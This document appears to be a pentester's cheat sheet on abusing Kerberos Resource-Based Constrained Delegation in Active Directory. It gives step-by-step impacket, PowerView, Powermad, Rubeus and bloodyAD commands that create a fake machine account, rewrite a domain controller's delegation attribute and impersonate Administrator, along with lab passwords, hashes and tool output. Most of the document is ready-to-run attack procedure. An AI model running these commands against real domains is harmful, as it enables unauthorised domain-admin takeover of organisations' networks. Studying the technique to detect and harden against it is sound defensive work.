 # Kerberos Delegation - Resource Based Constrained Delegation

Resource-based Constrained Delegation was introduced in Windows Server 2012.

> The user sends a Service Ticket (ST) to access the service ("Service A"), and if the service is allowed to delegate to another pre-defined service ("Service B"), then Service A can present to the authentication service the TGS that the user provided and obtain a ST for the user to Service B.  <https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html>

## HTB Method (Linux)
> Requirements:
  1. Access to a user or group that has enough privileges to modify the msds-allowedtoactonbehalfofotheridentity. Commonly GenericWrite/All, WriteProperty, or WriteDACL
  2. Control of another object that has an SPN

1. Add the fake machine
  ```bash
  impacket-addcomputer -computer-name 'FakeComputer' -computer-pass <password> -dc-ip <DC IP> <domain>/<controlled username>
  ```
2. Add the fake machine account to the target computers trust list. (Possible because we have GenericalAll)
  ```bash
  impacket-rbcd -dc-ip <DC IP> -t <Target Computer hostname> -f <fakemachine hostname> <domain>/<controlled username>:<controlled password>
  ```
3. Get the Target
  ```bash
  impacket-getST -spn <SPN> -impersonate <user to impersonate> -dc-ip <DC IP> <domain>/<fakemachinehostname>:<fakemachinepassword>
  ```
4. Export the ticket for use
  ```bash
  export KRB5CCNAME=<Ticket.ccache>
  ```
5. Test it out 
  ```bash
  impacket-psexec -k -no-pass <target computer>
  ```
## HTB Method (Windows)
> Requirements: 
  1. Access to a user or group that has enough privileges to modify the msds-allowedtoactonbehalfofotheridentity. Commonly GenericWrite/All, WriteProperty, or Write DACL 
  2. Control of another object that has an SPN

1. Search RBCD 
  ```powershell
  Import-Module ./powerview.ps1

  # Get all computers in the domain into a variable
  $computers = Get-DomainComputer

  # Get all users in the domain into a variable
  $users = Get-DomainUser

  # Define the required access rights in a variable
  $accessrights = "GenericWrite","GenericAll","WriteProperty","WriteDACL"

  # Loop though each computer in the domain
  foreach ($computer in $computers){
      # get the security Descriptor for the computer
      $acl = Get-DomainObjectACL -SamAccountName $computer.SamAccountName -ResolveGUIDs

      # Loop through each user in the domain
      foreach ($user in $users) {
          $hasAccess = $acl | ?{$_.SecurityIdentifier -eq $user.objectsid} | %{($_.ActiveDirectoryRights -match ($accessRights -join '|'))}

          if ($hasAccess) {
              Write-Output "$($user.SamAccountName) has the required access rights on $($computer.name)"
          }
      }
  }
  ```
2. RBCD Enumeration
  ```powershell
  .\SearchRBCD.ps1
  ```
3. Use PowerMad to create a fake computer
  ```powershell
  Import-Module .\Powermad.ps1
  New-MachineAccount -MachineAccount <FakeMachineName> -Password $(ConvertTo-SecureString "<password>" -AsPlainText -Force)
  ```
4. Modify the target computers
  ```powershell
  Import-Module .\Powerview.ps1
  $ComputerSid = Get-DomainComputer <FakeMachineName> -Properties objectsid | Select -Expand objectsid
  $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
  $SDBytes = New-Object byte[] ($SD.BinaryLength)
  $SD.GetBinaryForm($SDBytes, 0)
  $credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
  Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Credential $credentials -Verbose
  ```
5. Get Computer hashes with Rubeus
  ```powershell
  .\Rubeus.exe hash /password:Hackthebox123+! /user:HACKTHEBOX$ /domain:inlanefreight.local
  ```
6. s4u to Impersonate the Administrator
  ```powershell
  .\Rubeus.exe s4u /user:HACKTHEBOX$ /rc4:CF767C9A9C529361F108AA67BF1B3695 /impersonateuser:administrator /msdsspn:cifs/dc01.inlanefreight.local /ptt
  ```
  > Note: We can also use /altservice:host,RPCSS,wsman,http,ldap,krbtgt,winrm to include aditional services to our ticket request.
7. Connect to the target Machine 
  ```powershell
  ls \\dc01.inlanefreight.local\c$
  ```
8. Clean up 
  ```powershell
  Import-Module .\PowerView.ps1
  $credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
  Get-DomainComputer DC01 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity -Credential $credentials -Verbose
  ```

## RBCD from Linux when the MachineAccountQuota is Set to 0 
1. Obtain a TGT Using the NT hash
  ```bash
  pypykatz crypto nt '<password of compromised user'
  ```
  ```bash
  impacket-GetTGT <domain>/<username> -hashes :<hash from previous step> -dc-ip <DC IP>
  ```
2. Verify the ticket works by obtaining the session key
  ```bash
  impacket-describeticket <user.ccache> | grep 'Ticket Session Key'
  ```
3. Change the users password to allow the DC to decrypt the ticket
  ```bash
  impacket-changepassword <domain>/<username>@<DC IP> -hashes :<hash from previous steps> -newhash <session key hash>
  ```
4. Get the Service Ticket
  ```bash
  KRB5CCNAME=<user.ccache> impacket-getST -u2u -impersonate <User to impersonate> -spn <SPN> -no-pass <domain>/<controlled username> -dc-ip <DC IP>
  ```
5. Access the Machine
  ```bash
  KRB5CCNAME=<impersonated user.ccache> wmiexec.py <Compromised machine(DC)> -k -no-pass
  ```
## Swisskey Method 

1. Import **Powermad** and **Powerview**

    ```powershell
    PowerShell.exe -ExecutionPolicy Bypass
    Import-Module .\powermad.ps1
    Import-Module .\powerview.ps1
    ```

2. Get user SID

    ```powershell
    $AttackerSID = Get-DomainUser SvcJoinComputerToDom -Properties objectsid | Select -Expand objectsid
    $ACE = Get-DomainObjectACL dc01-ww2.factory.lan | ?{$_.SecurityIdentifier -match $AttackerSID}
    $ACE
    ConvertFrom-SID $ACE.SecurityIdentifier

    # alternative (Windows/Linux)
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get writable --otype COMPUTER --detail | egrep -i 'distinguishedName|msds-allowedtoactonbehalfofotheridentity'
    ```

3. Abuse **MachineAccountQuota** to create a computer account and set an SPN for it

    ```powershell
    New-MachineAccount -MachineAccount swktest -Password $(ConvertTo-SecureString 'Weakest123*' -AsPlainText -Force)

    # alternative (Windows/Linux)
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 add computer swktest 'Weakest123*'
    ```

4. Rewrite DC's **AllowedToActOnBehalfOfOtherIdentity** properties

    ```powershell
    $ComputerSid = Get-DomainComputer swktest -Properties objectsid | Select -Expand objectsid
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
    $SDBytes = New-Object byte[] ($SD.BinaryLength)
    $SD.GetBinaryForm($SDBytes, 0)
    Get-DomainComputer dc01-ww2.factory.lan | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
    $RawBytes = Get-DomainComputer dc01-ww2.factory.lan -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
    $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
    $Descriptor.DiscretionaryAcl

    # alternative (Windows/Linux)
    # use 'remove' instead of 'add' after exploit
    bloodyAD --host 10.1.0.4 -u user -p 'totoTOTOtoto1234*' -d crash.lab add rbcd 'dc01-ww2$' 'swktest$'
    ```

    ```ps1
    # alternative
    $SID_FROM_PREVIOUS_COMMAND = Get-DomainComputer MACHINE_ACCOUNT_NAME -Properties objectsid | Select -Expand objectsid
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$SID_FROM_PREVIOUS_COMMAND)"; $SDBytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDBytes, 0); Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

    # alternative
    StandIn_Net35.exe --computer dc01 --sid SID_FROM_PREVIOUS_COMMAND
    ```

5. Use Rubeus to get hash from password

    ```powershell
    Rubeus.exe hash /password:'Weakest123*' /user:swktest$  /domain:factory.lan
    [*] Input password             : Weakest123*
    [*] Input username             : swktest$
    [*] Input domain               : factory.lan
    [*] Salt                       : FACTORY.LANswktest
    [*]       rc4_hmac             : F8E064CA98539B735600714A1F1907DD
    [*]       aes128_cts_hmac_sha1 : D45DEADECB703CFE3774F2AA20DB9498
    [*]       aes256_cts_hmac_sha1 : 0129D24B2793DD66BAF3E979500D8B313444B4D3004DE676FA6AFEAC1AC5C347
    [*]       des_cbc_md5          : BA297CFD07E62A5E
    ```

6. Impersonate domain admin using our newly created machine account

    ```powershell
    .\Rubeus.exe s4u /user:swktest$ /rc4:F8E064CA98539B735600714A1F1907DD /impersonateuser:Administrator /msdsspn:cifs/dc01-ww2.factory.lan /ptt /altservice:cifs,http,host,rpcss,wsman,ldap
    .\Rubeus.exe s4u /user:swktest$ /aes256:0129D24B2793DD66BAF3E979500D8B313444B4D3004DE676FA6AFEAC1AC5C347 /impersonateuser:Administrator /msdsspn:cifs/dc01-ww2.factory.lan /ptt /altservice:cifs,http,host,rpcss,wsman,ldap

    [*] Impersonating user 'Administrator' to target SPN 'cifs/dc01-ww2.factory.lan'
    [*] Using domain controller: DC01-WW2.factory.lan (172.16.42.5)
    [*] Building S4U2proxy request for service: 'cifs/dc01-ww2.factory.lan'
    [*] Sending S4U2proxy request
    [+] S4U2proxy success!
    [*] base64(ticket.kirbi) for SPN 'cifs/dc01-ww2.factory.lan':

        doIGXDCCBligAwIBBaEDAgEWooIFXDCCBVhhggVUMIIFUKADAgEFoQ0bC0ZBQ1RPUlkuTEFOoicwJaAD
        AgECoR4wHBsEY2lmcxsUZGMwMS[...]PMIIFC6ADAgESoQMCAQOiggT9BIIE
        LmZhY3RvcnkubGFu

    [*] Action: Import Ticket
    [+] Ticket successfully imported!
    ```

## References

* [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory - 28 January 2019 - Elad Shami](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [A Case Study in Wagging the Dog: Computer Takeover - Will Schroeder - Feb 28, 2019](https://posts.specterops.io/a-case-study-in-wagging-the-dog-computer-takeover-2bcb7f94c783)
